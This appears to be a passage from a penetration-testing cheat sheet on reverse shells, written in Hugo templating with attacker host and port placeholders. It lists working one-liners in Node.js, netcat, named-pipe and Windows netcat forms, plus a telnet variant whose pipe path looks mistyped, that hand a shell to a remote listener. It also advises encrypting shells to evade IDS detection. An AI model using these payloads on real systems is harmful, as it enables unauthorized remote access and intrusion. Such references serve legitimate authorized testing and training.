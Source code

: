 ```js
require('child_process').exec('nc -e /bin/sh {{< param "war.lhost" >}} {{< param "war.lport" >}}')
```

```js
-var x = global.process.mainModule.require
-x('child_process').exec('nc {{< param "war.lhost" >}} {{< param "war.lport" >}} -e /bin/bash')
```

### Netcat

```sh
nc -e /bin/sh {{< param "war.lhost" >}} {{< param "war.lport" >}}
```

Depending on the Netcat version, the `-e` option may not be available, but you still can execute a command after connection being established by redirecting file descriptors.
A FIFO or named pipe can be created locally so when a connection is established, `/bin/sh` gets executed and the shell prompt is given to the remote machine.[^nc-openbsd]

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {{< param "war.lhost" >}} {{< param "war.lport" >}} >/tmp/f
```

### Netcat Windows

```sh
nc.exe {{< param "war.lhost" >}} {{< param "war.lport" >}} -e cmd.exe
```

### Telnet

```sh
rm -f /tmp/f; mknod /tmp/f p && telnet {{< param "war.lhost" >}} {{< param "war.lport" >}} 0/tmp/p
```

{{<note>}}
A FIFO can be create both with `mknod <path> p` or `mkfifo <path>` .
{{</note>}}


## Encrypted Shells

During an engagement is imperative to encrypt the communication between the target and the attacker to protect sensitive data and from further activity analysis.

Although most of the tools listed below do not support certificate pinning, meaning they won't protect you against a MITM attack, they can significantly reduce the risk of sniffing and IDS detection. [^cert-pinning]

### OpenSSL [^openssl]

Before starting the listener, a key pair and a certificate must be generated.

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
{{<details "Parameters"></details>}}


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.